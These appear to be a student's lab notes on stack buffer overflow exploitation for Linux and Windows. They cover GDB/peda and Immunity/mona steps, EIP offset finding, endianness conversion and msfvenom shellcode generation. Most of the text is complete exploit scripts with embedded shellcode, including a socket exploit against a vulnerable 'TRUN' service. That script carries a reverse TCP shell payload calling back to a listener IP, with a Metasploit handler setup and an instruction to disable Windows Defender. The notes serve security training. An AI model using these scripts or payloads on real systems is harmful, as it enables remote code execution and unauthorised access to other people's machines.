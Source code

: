 
# Buffer Overflow Common Terms
* Heap
* Stack
* Registers
* Instruction Pointer
* Stack Pointer
* Base Pointer
* Function
* Shellcode
# Buffer Overflow Defenses
* Non executable (NX) Stack
* Address Space Layout Randomization (ASLR)
* Data Execution Prevention (DEP)
* Stack Canaries
* Position Independent Excutable (PIE)
# GDB Uses
* installation pf peda plugin
    git clone https://github.com/longld/peda.git ~/peda
    echo "source ~/peda/peda.py" >> ~/.gdbinit
### Common Commands
```
disass <FUNCTION>     # Disassemble portion of the program
info <...>    # Supply info for specific stack areas
x/256c $<REGISTER>    # Read characters from specific register
break <address>    # Establish a break point
run <<<$(echo "asdfghjlklk")    # Goes into standard in of program. It makes it take an arguement before running the program
info functions    # Lists all the functions
pdisass main    # Lists the main function. (Can do this to any function)
info proc map    # Gets a map of the process
```
# Demo Linux
* [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
  - Look for "EIP" It should have a specific value from the characters you overflowed it with, copy the hex value determine the overflow amount
* To see the size of the stack, do "info proc map" and note the line with [heap], the line below that has a start addr (this is the start of the stack). Note the end addr of the line that has [stack] in it.
* find /b command:
  - `0xff` is jmp
  - `0xe4` is ESP
* `\x90` is NOP
```
run ./func <<<$(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  # what thi does id run func and uses command substitution starting at the gators to input bad strings
   
# Find out the overflow value
# Exit
# Enter a fresh gdb session without peda
*STEP 1 env - gdb ./func    # This allows you to do that ^
* pdisass getuserinput # shows code for a function called getuserinput
* shell takes you to your lin ops lines type exit to go back to gdb
* type run then do the overflow of characters 
* show env    # Lists variables
## run <<<$(./buff.py)   # redirects the input to run the file we created that will spam "A" however many times we want
## copy hex value in the EIP after the 0x

```
 #!/usr/bin/env python 
   
   buffer = "A" * 62
   eip = "BBBB"
   
   print(buffer+eip)
```
## the code aboce does a buffer overflow and replaces the EIP to check for validity 
## * unset env <variable>    # This unsets a variable
* info proc map    # Gets a map of the process after the crash
```
crash:
tarting program: /home/student/func 
Enter a string: 
ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```            1            2       3     4
* find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command (1)
* Then then tell it to not use the NULL Byte (2)
* Finally we tell it to format it to python (3)
```                              1           2         3
msfvenom -p /linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads
```
## shell code we push onto the program 
buf =  b""
buf += b"\xba\xf9\xfc\xc9\x23\xdd\xc3\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x10\x03\x50"
buf += b"\x10\x1b\x09\xa3\x28\x83\x6b\x66\x49\x5b\xa1\xe4"
buf += b"\x1c\x7c\xd1\xc5\x6d\xea\x22\x72\xbd\x88\x4b\xec"
buf += b"\x48\xaf\xde\x18\x4d\x2f\xdf\xd8\x25\x47\xb0\xb9"
buf += b"\xa4\xfe\x4e\x6d\x64\x89\xae\x5c\x0a"

## how to generate shell code via msfconsole
payload/linux/x86/exec
show options 
set cmd whoami
    then show options to verify

## your script to get the code to work should be this (shell code is buf and is variable)
!/usr/bin/env python 
   
buffer = "A" * 62
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf =  b""
buf += b"\xbb\x35\x5d\x8c\xf4\xd9\xed\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x0b\x31\x5a\x14\x83\xea\xfc\x03\x5a"
buf += b"\x10\xd7\xa8\xe6\xff\x4f\xca\xa5\x99\x07\xc1\x2a"
buf += b"\xef\x30\x71\x82\x9c\xd6\x82\xb4\x4d\x44\xea\x2a"
buf += b"\x1b\x6b\xbe\x5a\x1c\x6b\x3f\x9b\x54\x03\x50\xfa"
buf += b"\xf7\xba\xae\xab\x54\xb5\x4e\x9e\xdb"
print(buffer+eip+nop+buf)

then run on the gdb-peda with: run <<<$(./buff.py)

 ## run <<< $(./buffer.py)            runs the file loaded with the file command and runs it with the script 
## Starting program: /home/student/SECURITY/inventory.exe <<< $(./buffer.py)

once the script and stuff works for a windows machine all you need to change on the script is the EIP

## steps to do for exploiting a buffer overflow on linux 
1. env - gdb ./exe or gdb
2. run the file and spam characters from the generator to get a segmentation fault
3. unset the envs, 
4. then run info proc map
5. run find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
6. Take first 4 and make them little endian
7. take the first one and make it your eip 
8.generate shellcode with msfvenom
9. store into the script then run
        (file ./<file> then type: run <<< $(./<script>)
## it is imprtant to note transferring scripts across machines requires to replace eip because the eip youll use on yourlinops will be different from the web server

## how to use debugger and accomplish our exploit
1. env - gdb /path/.exe 
2. run # runs the executable to prepare for the overflow
3. after getting a SIGSEGV mesage do: info proc map
4. use the command find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
5. then take first 4 to make little endian, put the first one as your EIP in the script 
6. sudo (because we needed root to run against the file we are cating) /path/.exe <<< $(~/buffer.py)

when you see a strcopy string its vulnerable to overflow
netstat -anob
task manager > performance > open resource monitor to see what port and processes run 
use: nc <your ip> <port opened by serversind>         to interact with the port that is opened by a process 
 
```
# Demo Windows
### The Setup
* Run strings.exe on the executable      # .\downloads\SYSINTERNALS\strings.exe .\downloads\.exe
* Look for vulnerable variables        # strcopy and no stack protection 
* Go to [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and generate the string that will narrow the buffer offset
* Make the python [script](scripts.md)
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp
```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
run
```
```
## windows exploit
1.
  #!/usr/bin/env python
  import socket
 
  buf = "TRUN /.:/" 
  buf += "<2200 chars>"
  
   s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
   s.connect(("192.168.65.10", 9999))
   print s.recv(1024)
   s.send(buf)
   print s.recv(1024)
          
   s.close()

# 2. once the immunity debugger has the process its running crash and record the eip to gt the buffer

# 3. replace your 2200 chars with the buffer, then to check write a new buf line so its like this
4.  import socket
  3 
  4 buf = "TRUN /.:/"
  5 buf += "A" * 2003
  6 buf += "BBBB"
  7 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  8 s.connect(("192.168.65.10", 9999))
  9 print s.recv(1024)
 10 s.send(buf)
 11 print s.recv(1024)
 12 
 13 s.close()

# 4. once rerun you can also run !mona modules to see what is vulnrable 
# 5. !mona jmp -r esp -m "essfunc.dll" to find jm locations in the dll, look for the 9 pointers and grab the first 4 copy the address and change the uppercase letters to lowercase

# 6. replace the 4 Bs wiht the first one you grab thatll be your jmp esp location 
# 7. generate shellcode with  msfvenom -p windows/shell/reverse_tcp lhost=<linops ip> lport=<RH> -b "\x00" -f python
# 8. use msfconsole to give the following:
        ayload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
  this doesnt matter >>> EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     <RHP>            yes       The listen port

   
# 9. turn off windows defender real time protection then run the multi/handler exploit

# 10. meterpreter shell should be established now 

## script should look like this 

 #!/usr/bin/env python
  2 import socket
  3 
  4 buf = "TRUN /.:/"        # command to run 
  5 buf += "A" * 2003        # buffer
  6 buf += "\xa0\x12\x50\x62"    # EIP
  7 buf += "\x90" * 15            # NOP sled
  8 # 0x625012A0 -> 0x62 50 12 a0 "\xa0\x12\x50\x62"        # info proc map
  9 # 0x625012AD
 10 
 11 buf += b"\xbb\xe3\xd2\x14\xba\xdb\xd5\xd9\x74\x24\xf4\x5d"        # shellcode from msfvenom
 12 buf += b"\x31\xc9\xb1\x59\x31\x5d\x14\x83\xc5\x04\x03\x5d"
 13 buf += b"\x10\x01\x27\xe8\x52\x4a\xc8\x11\xa3\x34\xf8\xc3"
 14 buf += b"\xc7\x3f\xa8\xd3\x8c\x6d\x41\x9d\x76\x1a\x0b\x89"
 15 buf += b"\x49\xe3\x27\xc3\x81\x14\x8f\x6e\xf4\x1b\x2f\xc2"
 16 buf += b"\xc4\x3a\xd3\x19\x19\x9c\xea\xd1\x6c\xdd\x2b\xa4"
 17 buf += b"\x1b\x32\xe1\x60\x6f\x9e\x16\x04\x2d\x22\x16\xca"
 18 buf += b"\x39\x1a\x60\x6f\xfd\xee\xdc\x6e\x2e\x5e\x56\x38"
 19 buf += b"\xd6\xd5\x30\x99\xe7\x3a\x45\x10\x93\x80\x77\x5c"
 20 buf += b"\x15\x73\x43\x29\xa7\x55\x9d\xed\x04\x98\x11\xe0"
 21 buf += b"\x55\xdd\x96\x1b\x20\x15\xe5\xa6\x33\xee\x97\x7c"
 22 buf += b"\xb1\xf0\x30\xf6\x61\xd4\xc1\xdb\xf4\x9f\xce\x90"
 23 buf += b"\x73\xc7\xd2\x27\x57\x7c\xee\xac\x56\x52\x66\xf6"
 24 buf += b"\x7c\x76\x22\xac\x1d\x2f\x8e\x03\x21\x2f\x76\xfb"
 25 buf += b"\x87\x24\x95\xea\xb8\xc5\x65\x13\xe5\x51\xa9\xde"
 26 buf += b"\x16\xa1\xa5\x69\x64\x93\x6a\xc2\xe2\x9f\xe3\xcc"
 27 buf += b"\xf5\x96\xe4\xee\x2a\x10\x64\x11\xcb\x60\xac\xd6"
 28 buf += b"\x9f\x30\xc6\xff\x9f\xdb\x16\xff\x75\x71\x1d\x97"
 29 buf += b"\xb5\x2d\x60\x73\x5e\x2f\x63\xec\x44\xa6\x85\x42"
 30 buf += b"\x29\xe8\x19\x23\x99\x48\xca\xcb\xf3\x47\x35\xeb"
 31 buf += b"\xfb\x82\x5e\x86\x13\x7a\x36\x3f\x8d\x27\xcc\xde"
 32 buf += b"\x52\xf2\xa8\xe1\xd9\xf6\x4d\xaf\x29\x73\x5e\xd8"
 33 buf += b"\x4d\x7b\x9e\x19\xf8\x7b\xf4\x1d\xaa\x2c\x60\x1c"
 34 buf += b"\x8b\x1a\x2f\xdf\xfe\x19\x28\x1f\x7f\x2b\x42\x16"
 35 buf += b"\x15\x13\x3c\x57\xf9\x93\xbc\x01\x93\x93\xd4\xf5"
 36 buf += b"\xc7\xc0\xc1\xf9\xdd\x75\x5a\x6c\xde\x2f\x0e\x27"
 37 buf += b"\xb6\xcd\x69\x0f\x19\x2e\x5c\x13\x5e\xd0\x22\x3c"
 38 buf += b"\xc7\xb8\xdc\x7c\xf7\x38\xb7\x7c\xa7\x50\x4c\x52"
 39 buf += b"\x48\x90\xad\x79\x01\xb8\x24\xec\xe3\x59\x38\x25"
 40 buf += b"\xa5\xc7\x39\xca\x7e\xf8\x40\xa3\x81\xf9\xb4\xad"
 41 buf += b"\xe5\xfa\xb4\xd1\x1b\xc7\x62\xe8\x69\x06\xb7\x4f"
 42 buf += b"\x61\x3d\x9a\xe6\xe8\x3d\x88\xf9\x38"
 43 
 44 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)            # socket stuff for windows
 45 s.connect(("192.168.65.10", 9999))        # used the win ops ip cause we are trying to get on it and used the port the vulnerable .exe                                                    opens
 46 print s.recv(1024)
 47 s.send(buf)
 48 print s.recv(1024)
 49 
 50 s.close()
